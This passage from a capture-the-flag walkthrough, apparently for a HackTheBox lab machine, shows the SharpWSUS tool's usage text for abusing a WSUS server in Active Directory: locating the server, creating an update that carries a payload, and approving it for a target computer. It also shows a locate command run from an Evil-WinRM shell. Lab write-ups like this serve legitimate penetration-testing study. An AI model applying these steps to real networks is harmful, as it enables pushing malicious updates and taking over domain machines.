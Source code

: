 Let's try using `SharpWSUS` tool provided by:
https://github.com/nettitude/SharpWSUS

And here's the reference for this attack:
https://swisskyrepo.github.io/InternalAllTheThings/active-directory/deployment-wsus/

The usage of this tool is as follows;

```bash
 ____  _                   __        ______  _   _ ____
/ ___|| |__   __ _ _ __ _ _\ \      / / ___|| | | / ___|
\___ \| '_ \ / _` | '__| '_ \ \ /\ / /\___ \| | | \___ \
 ___) | | | | (_| | |  | |_) \ V  V /  ___) | |_| |___) |
|____/|_| |_|\__,_|_|  | .__/ \_/\_/  |____/ \___/|____/
                       |_|
           Phil Keeble @ Nettitude Red Team


Commands listed below have optional parameters in <>.

Locate the WSUS server:
    SharpWSUS.exe locate

Inspect the WSUS server, enumerating clients, servers and existing groups:
    SharpWSUS.exe inspect

Create an update (NOTE: The payload has to be a windows signed binary):
    SharpWSUS.exe create /payload:[File location] /args:[Args for payload] </title:[Update title] /date:[YYYY-MM-DD] /kb:[KB on update] /rating:[Rating of update] /msrc:[MSRC] /description:[description] /url:[url]>

Approve an update:
    SharpWSUS.exe approve /updateid:[UpdateGUID] /computername:[Computer to target] </groupname:[Group for computer to be added too] /approver:[Name of approver]>

Check status of an update:
    SharpWSUS.exe check /updateid:[UpdateGUID] /computername:[Target FQDN]

Delete update and clean up groups added:
    SharpWSUS.exe delete /updateid:[UpdateGUID] /computername:[Target FQDN] </groupname:[GroupName] /keepgroup>
```

Locate WSUS server.

```bash
*Evil-WinRM* PS C:\Users\sflowers\Documents> .\SharpWSUS.exe locate

 ____  _                   __        ______  _   _ ____
/ ___|| |__   __ _ _ __ _ _\ \      / / ___|| | | / ___|
\___ \| '_ \ / _` | '__| '_ \ \ /\ / /\___ \| | | \___ \
 ___) | | | | (_| | |  | |_) \ V  V /  ___) | |_| |___) |
|____/|_| |_|\__,_|_|  | .__/ \_/\_/  |____/ \___/|____/
                       |_|
           Phil Keeble @ Nettitude Red Team

[*] Action: Locate WSUS Server
WSUS Server: http://wsus.outdated.htb:8530

[*] Locate complete
```
